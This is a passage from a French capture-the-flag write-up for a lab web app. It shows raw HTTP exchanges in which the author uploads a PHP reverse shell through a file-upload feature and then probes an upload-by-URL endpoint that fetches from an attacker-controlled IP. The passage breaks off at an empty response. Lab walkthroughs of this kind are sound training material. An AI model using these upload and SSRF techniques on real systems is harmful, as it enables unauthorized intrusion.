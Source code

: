 ```
HTTP/1.1 201 Created
Date: Fri, 14 Mar 2025 16:27:11 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 42
ETag: W/"2a-nMoFx54+czTntmSLXl3mqIsZV4A"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

{"message":"User registered successfully"}
```
J'ai accès au site, il permet l'envoi d'un fichier.
Je vais test d'envoyé un shell php, pour cela j'utilise le php-reverse-shell de pentestmonkey.

Il l'envoi bien :
```
HTTP/1.1 200 OK
Date: Fri, 14 Mar 2025 16:32:44 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 100
ETag: W/"64-MzTMvfiAcrg1Kb75vyoKFRU8WmY"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

{"message":"Image uploaded successfully","path":"/api/uploads/64ecfb15-711c-486b-afc5-47e0045c602d"}
```
Mais cela télécharge le shell et ne l'execute pas.

On peux aussi upload via une URL :
```
POST /api/store-url HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://storage.cloudsite.thm/dashboard/active
Content-Type: application/json
Content-Length: 38
Origin: http://storage.cloudsite.thm
Connection: keep-alive
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImJsYWJsYUB0ZXN0LmNvbSIsInN1YnNjcmlwdGlvbiI6ImFjdGl2ZSIsImlhdCI6MTc0MTk2OTc1OCwiZXhwIjoxNzQxOTczMzU4fQ.1y3OdontXbJqOngILwBhJ-qz0jQU_kTvZrMdIJIyc3k
Priority: u=0

{"url":"http://10.14.97.127/test.txt"}
```
Résultat : 
```
HTTP/1.1 200 OK
Date: Fri, 14 Mar 2025 16:44:05 GMT
Server: Apache/2.4.52 (Ubuntu)
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 106
ETag: W/"6a-4yuvrfo2qhGjwt0S/+mVTtgnKMQ"
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive

```